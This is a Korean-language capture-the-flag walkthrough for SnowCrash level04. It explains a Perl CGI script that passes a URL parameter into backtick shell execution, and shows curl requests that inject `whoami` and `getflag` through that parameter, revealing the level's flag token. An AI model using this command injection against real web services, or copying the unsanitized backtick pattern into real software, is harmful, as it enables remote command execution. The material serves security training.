 # Level04

## level04.pl

```zsh
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
level04@SnowCrash:~$ cat level04.pl
```

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

이 스크립트는 Perl로 작성된 CGI(Common Gateway Interface) 스크립트입니다. 이것은 웹 서버와 같은 원격 컴퓨터의 외부에서 실행됩니다. 이 스크립트는 웹 브라우저를 통해 실행되어, GET 또는 POST 요청 매개 변수를 가져와서 x() 함수를 호출합니다.

x() 함수는 매개 변수로 전달된 값을 $y 변수에 저장하고, echo 명령어를 통해 $y 변수를 출력합니다. 여기서 2>&1은 표준 오류 출력을 표준 출력으로 리다이렉션합니다.

따라서, level04.pl 스크립트는 사용자가 전달한 매개 변수를 출력하는 것이며, 매개 변수에는 임의의 쉘 명령어를 전달할 수 있습니다. 이것은 명령어 인젝션 취약점으로 이어질 수 있습니다.

## 매개변수 보내기

```zsh
curl localhost:4747/?x=<parameter>
```

```zsh
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`whoami\`"
flag04
level04@SnowCrash:~$ curl "http://localhost:4747?x=\`getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
level04@SnowCrash:~$ su level05
Password: 
level05@SnowCrash:~$ 
```
